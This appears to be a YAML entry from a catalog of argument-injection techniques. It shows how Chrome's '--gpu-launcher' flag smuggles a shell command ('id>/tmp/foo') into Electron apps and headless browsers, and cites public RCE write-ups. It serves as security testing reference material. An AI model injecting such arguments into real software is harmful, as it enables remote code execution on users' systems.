 ```yaml
---
description: |
  This vector is particularly interesting for Electron applications and
  features relying on headless browsers.
functions:
  command:
    - code: chrome '--gpu-launcher="id>/tmp/foo"'
      references:
        - title: Exploiting Electron RCE in Exodus wallet
          url: https://medium.com/hackernoon/exploiting-electron-rce-in-exodus-wallet-d9e6db13c374
        - title: "CVE-2021-38112: AWS WorkSpaces Remote Code Execution"
          url: https://rhinosecuritylabs.com/aws/cve-2021-38112-aws-workspaces-rce/
---
```

